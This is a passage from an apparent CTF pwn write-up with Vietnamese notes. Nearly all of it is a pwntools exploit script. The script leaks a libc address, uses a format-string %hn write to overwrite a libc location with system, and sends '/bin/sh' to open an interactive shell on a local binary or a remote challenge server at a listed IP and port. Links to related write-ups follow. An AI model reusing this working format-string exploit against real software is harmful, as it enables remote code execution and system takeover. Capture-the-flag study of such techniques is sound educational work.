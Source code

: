 exp : 

```python
from pwn import *
BINARY_NAME = './chall_patched'
exe = context.binary = ELF(BINARY_NAME)
libc = exe.libc

def leak():
    s.sendlineafter(b'> ', b'1')
    return int(s.recvline().strip().split(b' ')[-1], 16) - libc.sym.fgets

def fmt(p):
    s.sendlineafter(b'> ', b'2')
    s.sendlineafter(b'> ', p)

def write(addr, val):
    for i in range(2):
        if val & 0xffff != 0:
            fmt(flat({
                0: f'%{val&0xffff}c%8$hn'.encode(),
                0x10: addr,
            }, filler=b'\x00'))
        val >>= 16
        addr += 2

def exploit(s):
    libc.address = leak()
    log.info(f'libc @ 0x{libc.address:x}')

    write(libc.address + 0x1FE080, libc.sym.system)
    s.sendlineafter(b'> ', b'3')
    s.sendlineafter(b'> ', b'/bin/sh')
    s.interactive()

if __name__ == '__main__':
    if len(sys.argv) == 1:
        s = process(BINARY_NAME)
    else:
        s = remote('34.70.212.151', 8008)
    exploit(s)
```

ref : 

[here](https://github.com/peace-ranger/CTF-WriteUps/tree/main/2023/backdoorCTF/(pwn)%20Baby%20Formatter)

[here](https://github.com/5kuuk/CTF-writeups/blob/main/backdoorctf-2023/pwn-+emptydb/exploit.c)

[1 bài sử dụng định dạng khác](https://sashactf.gitbook.io/pwn-notes/ctf-writeups/cor-ctf-2024/format-string#floating-point)


## Ez_fmt
